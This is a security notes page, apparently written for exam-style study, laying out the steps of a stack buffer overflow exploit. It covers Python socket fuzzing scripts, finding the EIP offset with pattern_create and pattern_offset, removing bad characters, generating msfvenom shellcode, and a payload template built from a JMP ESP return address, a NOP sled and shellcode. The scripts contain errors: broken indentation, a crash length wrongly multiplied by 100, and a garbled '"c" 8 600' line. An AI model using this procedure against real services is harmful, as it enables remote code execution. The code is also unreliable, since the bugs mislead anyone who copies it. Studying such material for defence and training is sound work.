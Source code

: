 ```yaml
---
layout: page
title: Detailed Steps
permalink: /notes/security/BufferOverflow/detailed-steps
notes_section: Security
notes_category: Buffer Overflow
notes_label: Detailed Steps
notes_order: 3
---
```


## Follow these steps:

1. **Fuzzing**
	Write a python program to test and crash the application. Then note down the application's threshold.		```
	```
	import socket
	import sys

	buffer = "A"*100

	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending buffer with length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
		buffer=buffer+'A'*20
	except:
		print'[*]Crashed at buffer length : ' + str(len(buffer)*100)
		sys.exit()
	```

2. Replicating the crash
	Send the exact no.of bytes at which the application crashed to the application.
	```
	import socket
	import sys

	buffer = "A" * <the value at which the application crashed>
	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending buffer with length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
	except:
		print'[*]Crash confirmed at buffer length : ' + str(len(buffer)*100)
		sys.exit()
	```

3. Generate random characters using pattern_create.rb script. It requires -l value. Here, the -l value is the no.of bytes at which the application crashed.
	```/path/to/pattern_create.rb -l <crash confirmed value>```

4.  Send the generated pattern as buffer to the target machine/application
	```
	import socket
	import sys

	buffer = <generated pattern in double quotes>
	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending the pattern of length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
	except:
		print'[*]Crash confirmed at : ' + str(len(buffer)*100)
		sys.exit()
	```

5. Observe that EIP registers value is changed. Note down that value.
6. Use pattern_offset.rb to find the exact offset of EIP register. It requires -l and -q. -l is the no.of bytes sent and -q is the recently noted EIP value.
7. Now, we have the exact offset of EIP register. If exact offset is 524 for example, send 524 A's and some extra characters to verify the exact offset of the EIP registers.
8. Identify the bad characters of the application by sending some bad characters via the buffer using python
9. Generate a shellcode using msfvenom, while generating, remove the badchars from the shellcode using -b flag. Mention the bad chars in between the apostrophe's. 
10. Identify the jmpesp's memory address. Note down the memory address. Now write the memory address in little endian.
11. For example, if jmpesp's memory is `311712F3`, write it as 
		`\xf3\x12\x17\x31`
12. Little endian is used because x86 architecture understands little endian. send this along with the buffer to the target i.e.,
		`"A"*524 +\xf3\x12\x17\x31 + "c" 8 600`
13.  Add few NOPs, note down the shell code size, subtract the no.of NOPs added and the size of shellcode from the no.of c's
14. Final payload format should be something like,
		`payload= "A"*exact offset + <jmpesp value written in little endian> + "\x90"* 4/8/12/16 + <shellcode> + "c" * 100/200/300/400`
